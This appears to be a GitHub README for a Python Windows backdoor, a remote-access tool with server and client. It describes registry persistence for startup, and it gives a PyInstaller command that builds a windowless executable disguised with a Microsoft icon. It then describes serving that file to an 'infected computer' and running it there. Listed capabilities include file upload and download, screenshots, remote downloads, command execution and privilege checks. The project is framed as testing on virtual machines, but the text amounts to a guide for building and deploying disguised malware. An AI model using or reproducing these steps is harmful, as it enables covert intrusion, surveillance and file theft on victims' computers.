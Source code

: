 # Windows python Backdoor exe
Server and client to explore backdoor files
Exemple with local and virtual machines

#### Server
- Execute on your computer with python
- Server ip need to be the same on Client code

#### client
Locate on a Windows computer. Execute and store on registry to load on windows start.
- Server ip need to be the same on Server code

#### Commands
- cd               -> list commands
- upload '$file'   -> Upload files
- download '$file' -> Download files
- screenshot       -> Screenshots
- get '$url'       -> Download files from internet on client
- start            -> Exec Commands
- check            -> Check user privileges

#### Requirements
- pip install requests
- pip install mss
- pip install pyinstaller
- pip install --upgrade setuptools

#### Execute python conversion to .exe
- $ cd client
- $ pyinstaller client.py --onefile --noconsole -i "../resources/microsoft.ico" --specpath ../executable/spec --distpath ../executable/dist --workpath ../executable/build 
- ONLY need dist folder content
- Share your exe file with infected computer
- $ python -m http.server
- Check your browser http://192.168.xxx.xxx:8000 

#### Execute on infected computer
- Execute client.exe on infected computer
- Enjoy your tests

#### Utilities
- https://readme.so/
- https://www.iconfinder.com/search?q=windows
- https://www.freeconvert.com/png-to-ico
- https://www.virtualbox.org/
- ipconfig
- netstat